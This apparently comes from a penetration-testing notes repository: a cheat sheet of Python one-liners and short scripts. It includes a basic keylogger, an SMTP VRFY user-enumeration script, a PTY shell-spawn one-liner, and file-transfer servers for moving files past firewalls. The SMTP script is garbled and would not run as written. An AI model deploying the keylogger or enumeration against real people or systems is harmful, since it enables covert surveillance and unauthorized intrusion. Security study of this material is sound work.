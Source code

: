 # Python One Liners and scripts

## [Back To Command-Center](https://github.com/encryptedninja/command-center/blob/dev/README.md)

- install requirements: `sudo python3 -m pip install -r requirements.txt`
- to spawn a shell: `python3 -c 'import pty;pty.spawn("/bin/bash")'`
- webservers: `python3 -m http.server 8080`
- if webserver is picked up by the firewall use ftp server: `python3 -m pyftpdlib -p 21 --write` and if you don't have it get it first with: `pip3 install pyftpdlib` and to log in just use the IP address of your ftp server: `ftp <ftp server IP>`

## Enumerating users / smtp

```
#!/usr/bin/python

import socket
import sys

#Create a Socket
s = socket.socket(socket.AF_INET, socket.SOCK_STREAM)
#Connect to the socket
connect = s.connect(('10.11.1.11', 25))
#Recieve the banner
banner = s.recv(1024)
#VRFY a user
s.send('vrfy ' + SYS.ARGV[1] + '\R\N')
print result
#Close the socket
s.close()

```

## keylogger (basic)

```
from pynput.keyboard import Key, Listener
import logging

log_dir = ""

logging.basicConfig(filename=(log_dir + "keylogs.txt"), \
	level=logging.DEBUG, format='%(asctime)s: %(message)s')

def on_press(key):
    logging.info(str(key))

with Listener(on_press=on_press) as listener:
    listener.join()

```

## printing and checking a usage form and switches (Python3)

```
if len(sys.argv) == 1:
    print("USAGE: python3 the_sys_module.py <code name>")
    print("No arguments, exiting...")
    sys.exit(9)
if sys.argv[1] == "tellmemore":
    print("Code name accepted..., exiting with exit code 0.")
else:
    print("Wrong code name, exiting with exit code 3.")

```

## progress bar (Python3)

```
for i in range(0, 51):
    time.sleep(0.1)
    sys.stdout.write("{} [{}{}]\r".format(i, '#' * i, "." * (50 - i)))
    sys.stdout.flush()
sys.stdout.write("\n")

```

## QR code generator (Python3)

```
import qrcode

input_data = "https://google.com"
qr = qrcode.QRCode(version=1, box_size=10, border=5)
qr.add_data(input_data)
qr.make(fit=True)
img = qr.make_image(fill='black', back_color='white')
img.save('qrcode001.png')

```

## Python3 FTP Server

- Simple to use: `python3 -m pyftpdlib` and just make sure you have pyftpdlib installed with pip3.

## SMB Server - Impacket

- `smbserver.py SPITFIRE ./`

